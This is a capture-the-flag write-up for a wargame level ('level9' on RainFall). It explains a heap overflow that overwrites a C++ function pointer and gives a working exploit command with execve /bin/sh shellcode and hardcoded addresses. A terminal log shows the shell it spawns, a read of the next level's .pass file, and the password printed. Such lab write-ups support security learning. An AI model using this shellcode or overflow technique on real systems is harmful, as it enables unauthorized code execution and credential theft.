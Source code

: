 It overwrote the function pointer for `operator+` which is obtained by derefrencing the pointer to the N class, which is called at instruction `8048693`. After trail and error, we figured the offset is **109**
![image](https://hackmd.io/_uploads/ByjIXjlLa.png)

I tried using the env method but there is too much calculation involved, so i just hardcoded the addresses to make it jump to the buffer, which will contain another address to make it jump to the shellcode instructions.

![image](https://hackmd.io/_uploads/SJ22KnxUT.png)

As we can see, the start of the buffer is `0x0804a00c` according to memcpy. `0x0804a00c` will contain an address which points to the start of the buffer + 4, which is `0x0804a010`. The program will derefrence `0x0804a00c` to `0x0804a010`, which derefrences again to our shellcode. 

To make the program read `0x0804a00c`, we need to make sure our payload hits the **109** offset

```
./level9 `python -c "print '\x08\x04\xa0\x10'[::-1] + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'b' * 83 + '\x08\x04\xa0\x0c'[::-1]"`
```
The password is obtained `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

```
level9@RainFall:~$ ./level9 `python -c "print '\x08\x04\xa0\x10'[::-1] + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'b' * 83 + '\x08\x04\xa0\x0c'[::-1]"`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```
